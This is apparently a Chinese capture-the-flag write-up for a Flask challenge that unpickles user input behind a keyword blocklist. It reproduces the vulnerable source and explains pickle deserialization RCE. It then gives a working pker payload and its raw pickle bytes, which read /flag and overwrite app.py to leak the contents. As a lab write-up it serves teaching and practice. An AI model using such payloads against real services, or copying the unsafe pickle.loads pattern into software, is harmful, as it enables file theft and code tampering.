 ```yaml
---
title: DASCTF 2024最后一战｜寒夜破晓，冬至终章 const_python WP
date: 2025/04/29 01:08:20
tags: [Web, CTF]
categories: WriteUps
filename: dasctf_const_python.md
permalink: dasctf_const_python.html
---
```


----
[参考WP](https://xz.aliyun.com/news/16303)

[pker 学习](https://xz.aliyun.com/news/6608)

[pker](https://github.com/EddieIvan01/pker#)

## 解题过程

根据题目提示，访问路由 src，获得源代码：

```python

import builtins
import io
import sys
import uuid
from flask import Flask, request,jsonify,session
import pickle
import base64


app = Flask(__name__)

app.config['SECRET_KEY'] = str(uuid.uuid4()).replace("-", "")


class User:
    def __init__(self, username, password, auth='ctfer'):
        self.username = username
        self.password = password
        self.auth = auth

password = str(uuid.uuid4()).replace("-", "")
Admin = User('admin', password,"admin")

@app.route('/')
def index():
    return "Welcome to my application"


@app.route('/login', methods=['GET', 'POST'])
def post_login():
    if request.method == 'POST':

        username = request.form['username']
        password = request.form['password']


        if username == 'admin' :
            if password == admin.password:
                session['username'] = "admin"
                return "Welcome Admin"
            else:
                return "Invalid Credentials"
        else:
            session['username'] = username


    return '''
        <form method="post">
        <!-- /src may help you>
            Username: <input type="text" name="username"><br>
            Password: <input type="password" name="password"><br>
            <input type="submit" value="Login">
        </form>
    '''


@app.route('/ppicklee', methods=['POST'])
def ppicklee():
    data = request.form['data']

    sys.modules['os'] = "not allowed"
    sys.modules['sys'] = "not allowed"
    try:

        pickle_data = base64.b64decode(data)
        for i in {"os", "system", "eval", 'setstate', "globals", 'exec', '__builtins__', 'template', 'render', '\\',
                 'compile', 'requests', 'exit',  'pickle',"class","mro","flask","sys","base","init","config","session"}:
            if i.encode() in pickle_data:
                return i+" waf !!!!!!!"

        pickle.loads(pickle_data)
        return "success pickle"
    except Exception as e:
        return "fail pickle"


@app.route('/admin', methods=['POST'])
def admin():
    username = session['username']
    if username != "admin":
        return jsonify({"message": 'You are not admin!'})
    return "Welcome Admin"


@app.route('/src')
def src():
    return  open("app.py", "r",encoding="utf-8").read()

if __name__ == '__main__':
    app.run(host='0.0.0.0', debug=False, port=5000)
```

分析代码可知，我们的主要目标是通过 pickle RCE 获得 config['secret']。

构造 pickle payload：

----



wait！ 在此之前我们先学习一下什么是 pickle：

`pickle` 是 Python 的**序列化/反序列化**模块。

	它能把 Python 对象保存成字节流（序列化），也能把字节流还原成对象（反序列化）。
	
	**问题是**：`pickle.loads()` 在反序列化时会**执行**字节流里的指令，所以如果不可信的数据被反序列化，就可以执行任意代码，导致 **远程代码执行（RCE）漏洞**。

想要生成一个 pickle 序列化 bytes，可以这样做：

```python
import pickle

class A:
    def __reduce__(self):
        return (print, ("helloworld!", ))

payload = pickle.dumps(A())
```

`__reduce__` 用于告诉 pickle 怎样序列化这个 Python 对象，其中 return 的第一个变量是一个函数对象，指定使用什么函数来序列化这个对象，之后跟着一个元组，它是传递给前面的函数对象的参数。需要注意的是，如果传递的元组**长度为 1**，一定要记得在后面加上一个 `,`。

But! 使用python官方的代码来生成 payload 限制很大，而且也不大精细，因此，我们可以使用大佬写的 pker 来生成序列化字节流。

pker 的教程见文首的文章。

----

现在我们来尝试构造本题的 payload。读这部分代码，发现可以使用 open, write：

```python
@app.route('/ppicklee', methods=['POST'])
def ppicklee():
    # 获取 pickle payload
    data = request.form['data']

    # 禁止使用 os 和 sys
    sys.modules['os'] = "not allowed"
    sys.modules['sys'] = "not allowed"
    
    try:
        pickle_data = base64.b64decode(data)
        # 不允许出现下列字符串
        for i in {"os", "system", "eval", 'setstate', "globals", 'exec', '__builtins__', 'template', 'render', '\\',
                 'compile', 'requests', 'exit',  'pickle',"class","mro","flask","sys","base","init","config","session"}:
            if i.encode() in pickle_data:
                return i+" waf !!!!!!!"

        pickle.loads(pickle_data)
        return "success pickle"
    except Exception as e:
        return "fail pickle"
```

> 补充一个知识点：
>
> 在 jinjia 模板中，能够使用类似 `''['__class__']` 的方式来访问某一个对象的属性，这是 jinjia 引擎提供的特性，它会在找不到字典键的时候将他转换成  `getattr('', '__class__')`，但是这种方式在正常的代码中是不可行的，只能使用 `''.__class__` 的方式来获取。（是的，理论上我们可以使用 getattr 来生成完成这个题目）
## Payload

``` python
getattr = GLOBAL('builtins', 'getattr')  # 从内置函数中获取 getattr 这个内置函数
open = GLOBAL('builtins', 'open')        # 同样，我们获取到 open 这个内置函数
f = open('/flag')                        # 获取到 flag 的文件对象
read = getattr(f, 'read')                # 注意，这个地方的 read 是独属于 f 文件对象的 read，相当于 read = f.read
content = read()                         # 获取到 flag 的内容
src = open('./app.py', 'w')              # 获取到源代码的文件对象，这是我们唯一一个我们能拿到回显的地方了
write = getattr(src, 'write')            # 拿到源代码的 write 函数
write(content)                           # 写入
return                                   # 返回
```

然后使用 pker 生成 payload

``` bash
python pker.py < payload.txt
```

得到一个 python 样式的字节流 `b''`，注意这个地方不要直接放到 cyber chef 中，因为他不会转义 `\n`，要么使用 python 先输出（因为没有中文），要么直接使用 python 拿到 b64:

``` python
import base64
base64.urlsafe_b64encode(b"cbuiltins\ngetattr\np0\n0cbuiltins\nopen\np1\n0g1\n(S'/flag'\ntRp2\n0g0\n(g2\nS'read'\ntRp3\n0g3\n(tRp4\n0g1\n(S'./app.py'\nS'w'\ntRp5\n0g0\n(g5\nS'write'\ntRp6\n0g6\n(g4\ntR.")
```

然后丢到 `/ppicklee` 中，访问 /src 拿到 flag 回显就可以了。

## 长长脑子

下面小小尝试一下使用 python 官方代码进行序列化，对照上面的代码，得到：

```python
import pickle

class RCE:
    def process():
        open('./app.py', 'w').write(open('/flag').read())
    
    def __reduce__(self):
        return (process)

payload = pickle.dumps(RCE())
```

显然，我失败了，原因是 `__reduce__` 这个函数执行的时候 self 对象已经不存在了，也就是说其他相应的成员函数也随之被销毁了，那么可不可以把函数写在外面呢？可以，如果你的 payload 在这个文件里面被解析，当然可以，可惜你的payload是在别人的代码中执行。。。 

因此，我也算是明白使用 python 官方的代码为什么会说限制很大了。。而且这个官方代码不允许嵌套调用。

